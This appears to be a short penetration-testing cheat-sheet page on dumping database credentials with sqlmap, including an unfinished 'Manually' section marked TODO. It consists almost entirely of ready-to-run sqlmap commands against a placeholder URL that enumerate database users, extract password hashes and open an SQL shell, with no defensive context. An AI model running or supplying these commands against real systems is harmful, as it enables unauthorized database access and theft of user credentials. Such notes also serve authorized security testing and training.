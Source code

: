 # 05 - Credentials

Search Tag: #sqlmap #enumeration-and-discovery #credential-access-and-dumping #data-exfiltration

## Automated

- Enumerate user database accounts.

```
$ sqlmap -u "<URL>" --random-agent --users
```

- Extract user database passwords.

```
$ sqlmap -u "<URL>" --random-agent --passwords
```

## Manually

TODO: Fill this info

```
$ sqlmap -u "<URL>" --random-agent --sql-shell
```